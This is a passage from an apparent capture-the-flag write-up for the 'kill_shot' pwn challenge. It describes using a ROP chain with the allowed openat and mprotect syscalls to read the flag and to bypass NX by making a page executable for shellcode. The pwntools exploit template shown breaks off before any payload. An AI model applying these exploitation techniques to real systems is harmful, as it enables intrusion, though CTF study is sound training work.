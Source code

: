 Once we are able to write a ROP chain, we are still limited by the seccomp rules.
We are told the location of the flag, and the inclusion of the `openat` syscall allows us to read an arbitrary file.
Additionally, we can simplify our payload through the `mprotect` syscall, which has also been whitelisted.
This allows us to bypass the NX mitigation by changing the permissions of a page to RWX, allowing us to execute arbitrary shellcode.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host bin.q21.ctfsecurinets.com --port 1338 kill_shot
from pwn import *
import funcy
# Set up pwntools for the correct architecture
exe = context.binary = ELF('./kill_shot')
libc = ELF('./libc.so.6')
ld = ELF('./ld-2.27.so')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'bin.q21.ctfsecurinets.com'
port = int(args.PORT or 1338)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    p = process([ld.path, exe.path] + argv, *a, **kw, env={"LD_PRELOAD": libc.path})
    if args.GDB:
        gdb.attach(p, gdbscript=gdbscript)
    return p

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB

gdb_base = 0x7ffff7bd2000

gdbscript = '''
'''.format(**locals())


#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
```